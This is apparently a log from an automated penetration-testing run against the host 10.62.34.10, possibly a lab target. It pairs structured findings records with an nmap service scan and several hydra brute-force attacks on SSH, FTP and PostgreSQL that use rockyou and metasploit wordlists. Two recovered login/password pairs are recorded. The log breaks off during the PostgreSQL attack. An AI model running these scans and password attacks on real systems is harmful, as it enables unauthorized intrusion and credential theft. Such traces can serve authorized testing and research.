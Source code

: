 {"credentials":[],"endpoints":["10.62.34.10:22/ssh","10.62.34.10:53/tcpwrapped","10.62.34.10:80/http","10.62.34.10:212/ftp","10.62.34.10:700/http","10.62.34.10:901/vnc","10.62.34.10:5432/postgresql"],"services":["OpenSSH 8.9p1 Ubuntu 3ubuntu0.13:22","nginx 1.18.0 (Ubuntu):80","vsftpd 2.3.4:212","Gunicorn:700","VNC (protocol 3.8):901","PostgreSQL DB 9.6.0 or later:5432"],"cookies":[],"vulnerabilities":[]}{"command": "nmap -sV -T4 --top-ports=1000 10.62.34.10", "result": "Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-30 18:47 UTC
Nmap scan report for 10.62.34.10
Host is up (0.012s latency).
Not shown: 993 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
212/tcp  open  ftp        vsftpd 2.3.4
700/tcp  open  http       Gunicorn
901/tcp  open  vnc        VNC (protocol 3.8)
5432/tcp open  postgresql PostgreSQL DB 9.6.0 or later
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.64 seconds
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":"ssh://10.62.34.10:22/"},{"type":"password","login":"uftp","password":"clock","context":"ssh://10.62.34.10:22/"}],"endpoints":["10.62.34.10:22/"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.62.34.10", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:47:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking ssh://10.62.34.10:22/
[22][ssh] host: 10.62.34.10   login: admin   password: protect
[22][ssh] host: 10.62.34.10   login: uftp   password: clock
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:48:15
"}{"credentials":[{"type":"password","login":"admin","password":"protect","context":""},{"type":"password","login":"uftp","password":"clock","context":""}],"endpoints":["10.62.34.10:212"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.62.34.10:212", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-30 18:48:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 190 login tries (l:5/p:38), ~12 tries per task
[DATA] attacking ftp://10.62.34.10:212/
[212][ftp] host: 10.62.34.10   login: admin   password: protect
[212][ftp] host: 10.62.34.10   login: uftp   password: clock
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-30 18:48:46
"}{"credentials":[],"endpoints":[],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt pgsql://10.62.34.10:5432", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

